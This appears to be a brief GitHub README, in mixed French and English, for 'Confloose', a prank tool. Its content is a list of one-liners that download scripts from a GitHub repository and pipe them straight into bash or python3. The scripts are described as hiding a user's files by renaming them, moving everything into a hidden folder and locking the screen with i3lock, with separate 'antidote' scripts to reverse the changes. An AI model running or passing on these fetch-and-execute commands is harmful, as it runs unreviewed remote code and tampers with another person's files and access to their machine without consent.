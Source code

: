 # Confloose

Cacher les fichiers en ."name"

bash <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/bash)
python3 <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/renameall.py)

Move tous dans .Confloose

bash <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/dos)

Enter i3lock.


bash <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/i3lock)


Antidote (bash)

bash <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/antidode)
python3 <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/inverse.py)

Ra

bash <(curl https://raw.githubusercontent.com/Arnoloh/Confloose/master/ra)

